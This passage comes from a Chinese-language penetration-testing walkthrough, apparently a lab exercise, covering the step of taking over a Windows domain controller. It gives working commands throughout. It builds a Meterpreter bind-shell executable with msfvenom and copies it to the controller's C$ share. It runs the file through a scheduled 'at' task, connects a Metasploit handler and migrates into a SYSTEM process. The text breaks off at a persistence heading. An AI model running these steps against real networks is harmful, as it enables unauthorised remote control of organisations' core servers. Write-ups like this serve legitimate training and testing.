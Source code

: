 ```shell
# 查看域控的c盘目录
dir \\dc\c$
```

![image-20230310200103084](https://s2.loli.net/2023/03/11/tj1uJ7yHkvK9YO2.png)

9、获得域控的shell

因为是内网的主机，无法访问外网，所以我们生成直连木马

```shell
msfvenom -p windows/meterpreter/bind_tcp lport=5555 -f exe > b5555.exe
```

上传到web服务器

```
upload /opt/tools/ms14-068/b5555.exe C:/phpstudy_pro/WWW/www.webhack123.com/b5555.exe
```

![image-20230310201024330](https://s2.loli.net/2023/03/11/lbLt9OkoqBrfWKv.png)

通过web将木马上传到域控，设置定时任务定时执行

```shell
net time \\dc
copy b5555.exe \\dc\c$\b5555.exe
dir \\dc\c$
at \\dc 20:15:00 c:/b5555.exe
at \\dc
```

![image-20230310201316817](https://s2.loli.net/2023/03/11/a9p2b6hUvqcTos4.png)

msf正向连接

```shell
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set rhost 10.10.10.149
msf6 exploit(multi/handler) > set lport 5555
msf6 exploit(multi/handler) > exploit

meterpreter > sysinfo
```

![image-20230310201545770](https://s2.loli.net/2023/03/11/wJICHANaGMBPxR4.png)

进程迁移

```
meterpreter > migrate 856
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

10、权限维持
